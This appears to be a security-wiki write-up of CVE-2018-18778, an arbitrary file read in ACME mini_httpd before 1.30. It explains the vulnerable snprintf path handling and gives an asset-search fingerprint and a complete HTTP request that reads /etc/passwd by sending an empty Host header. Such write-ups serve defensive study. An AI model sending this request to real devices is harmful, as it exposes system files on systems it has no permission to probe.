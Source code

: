 # ACME Mini_httpd Arbitrary file reading vulnerability CVE-2018-18778

## Vulnerability Description

The cause of the vulnerability is that the specific fields of the Http header are not filtered, resulting in the path to access system files, which can lead to access to any file. The attacker can use the vulnerability to read any file of the device, which will seriously threaten the security of devices using Mini_httpd.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">ACME mini_httpd before 1.30</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ACME-mini_httpd"</span>

## Vulnerability reappears

Fingerprint information

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651364999726-9489ab39-a1ab-4a52-b979-c2be1b30f708-20220501090543203.png)

When mini_httpd is turned on virtual host mode, the user requests `http://HOST/FILE` to access the HOST/FILE file in the current directory.

When `HOST=example.com and FILE=index.html`, the result of the above statement is `example.com/index.html`, and the file is read normally.

When `HOST is empty and FILE=etc/passwd` is the result of the above statement to be `/etc/passwd`.

```java
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

Send request packet, empty host

```java
GET /etc/passwd HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Referer: http://192.168.0.144:8080/
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
x-requested-with: XMLHttpRequest
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651365228889-3cc62bb4-cb20-49d0-a6f6-c91258efc211-20220501090543427.png)
